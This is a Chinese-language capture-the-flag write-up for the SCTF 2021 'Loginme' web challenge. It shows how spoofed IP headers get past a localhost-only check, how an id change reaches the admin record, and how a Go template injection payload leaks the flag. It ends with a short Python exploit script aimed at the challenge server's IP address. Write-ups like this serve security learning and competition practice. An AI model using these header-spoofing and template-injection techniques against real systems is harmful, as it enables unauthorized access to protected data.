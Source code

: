 #  Loginme

进入网页，显示如下界面：

![avatar](img/sctf21_loginme_index.png)

上面提示只有localhost能访问，点击其中的链接（/admin/index?id=1）会返回401。
看看提示和代码：

![avatar](img/sctf21_loginme_readme.png)
![avatar](img/sctf21_loginme_main.png)
![avatar](img/sctf21_loginme_middleware.png)
![avatar](img/sctf21_loginme_route.png)
![avatar](img/sctf21_loginme_structs.png)

根据middleware可以发现，后端要求x-forwarded-for和x-client-ip为空，而clientIP()为127.0.0.1，网上查了一下发现这玩意儿看的是x-real-ip，那么分别设置这3个header就行。根据structs，flag放在Admin中，把请求中的id改为0：

![avatar](img/sctf21_loginme_admin0.png)

根据route，如果age为空且请求参数里没有age，后端就会给age赋一串文字。加上age参数再请求一次：

![avatar](img/sctf21_loginme_admin1.png)

可以看到age的内容，也就是说可以尝试SSTI：

![avatar](img/sctf21_loginme_flag.png)

得到flag。

EXP：
```python
import requests

headers = {
    'x-forwarded-for': '',
    'x-client-ip': '',
    'x-real-ip': '127.0.0.1'
}
params = {
    'id': 0,
    'age': '{{.Password}}'
}
r = requests.get('http://124.71.166.197:18001/admin/index', headers=headers, params=params)
print(r.text)
```

